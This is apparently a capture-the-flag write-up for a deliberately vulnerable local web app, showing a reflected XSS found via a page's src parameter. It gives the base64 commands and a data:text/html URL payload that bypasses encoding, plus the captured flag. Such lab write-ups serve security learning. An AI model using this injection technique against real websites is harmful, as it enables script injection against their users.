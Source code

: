 Vulnerability name: Reflected XSS

How to defend: validate and sanitize input

a weirdly loaded image http://localhost:8080/index.php?page=media&src=1

after trying a million things

we can bypass the url encoding with base 64, and do an xss attack

```
➜  darklyProject git:(master) ✗ echo '<script>alert()</script>' | base64
PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+Cg==
```

this gives us a double wrong answer as http://localhost:8080/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+Cg==

but putting something in the alert

```
➜  darklyProject git:(master) ✗ echo '<script>alert("ok")</script>' | base64
PHNjcmlwdD5hbGVydCgib2siKTwvc2NyaXB0Pgo=
```

gets us the flag

```
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```
